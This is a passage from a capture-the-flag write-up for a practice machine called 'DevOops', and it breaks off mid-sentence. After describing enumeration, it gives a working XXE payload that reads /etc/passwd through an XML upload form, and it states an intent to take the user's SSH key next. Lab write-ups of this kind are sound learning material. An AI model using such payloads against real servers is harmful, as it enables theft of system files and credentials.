 # DevOops

>skills this box involved:
- enumeration  
- git command use
- XXE file read

After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
we can see that it comes back with two results.
```
/feed
/upload
```
Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
```xml
<test>
  <Author>fieldraccoon</Author>
  <Subject>fieldraccoon</Subject>
  <Content>fieldraccoon</Content>
</test>
```
this is the data we add to our initial payload and we get a request back form the server.
```
PROCESSED BLOGPOST: 
  Author: fieldraccoon
 Subject: fieldraccoon
 Content: fieldraccoon
 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
 ```
 We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<test>
  <Author>fieldraccoon</Author>
  <Subject>&file;</Subject>
  <Content>fieldraccoon</Content>
</test>
```
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to 

